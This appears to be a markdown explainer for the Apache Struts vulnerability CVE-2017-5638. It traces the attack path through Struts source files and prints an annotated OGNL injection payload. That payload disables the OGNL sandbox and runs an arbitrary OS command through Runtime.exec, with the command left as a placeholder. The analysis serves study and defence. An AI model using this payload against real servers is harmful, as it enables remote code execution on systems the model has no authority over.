

# CVE-2017-5638 — Full Attack Call Chain

Sequence diagram tracing the HTTP request from the attacker's POST to RCE on the server.
Each step maps to a source file in `struts-src-code/src/`.

---



---

## Full OGNL Payload (annotated)

```
%{
  (1) #container = #context['com.opensymphony.xwork2.ActionContext.container']
      // ActionContext.get(CONTAINER) → returns the XWork IoC container

  (2) #ognlUtil = #container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)
      // Retrieves the OgnlUtil singleton from the container

  (3) #ognlUtil.getExcludedPackageNames().clear()
      #ognlUtil.getExcludedClasses().clear()
      // Destroys the OGNL package/class blacklist — sandbox is now gone

  (4) #context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)
      // Replaces restrictive SecurityMemberAccess with unrestricted DefaultMemberAccess

  (5) @java.lang.Runtime@getRuntime().exec('<COMMAND>')
      // Executes an arbitrary OS command as the server process
}.multipart/form-data
```

## Source File Map

| Step | File | Class | Method |
|------|------|-------|--------|
| 1 | `struts2-core/StrutsPrepareAndExecuteFilter.java` | `StrutsPrepareAndExecuteFilter` | `doFilter()` |
| 2 | `struts2-core/PrepareOperations.java` | `PrepareOperations` | `wrapRequest()` |
| 3 | `struts2-core/Dispatcher.java` | `Dispatcher` | `wrapRequest()` |
| 4 | `struts2-core/MultiPartRequestWrapper.java` | `MultiPartRequestWrapper` | `constructor` |
| 5–6 | `struts2-core/JakartaMultiPartRequest.java` | `JakartaMultiPartRequest` | `parse()`, `buildErrorMessage()` |
| 7a | `xwork2/OgnlUtil.java` | `OgnlUtil` | `getExcludedClasses()`, `getExcludedPackageNames()` |
| 7b | `ognl/OgnlContext.java` | `OgnlContext` | `setMemberAccess()`, `DEFAULT_MEMBER_ACCESS` |
| 8 | *(JDK)* | `java.lang.Runtime` | `exec()` |
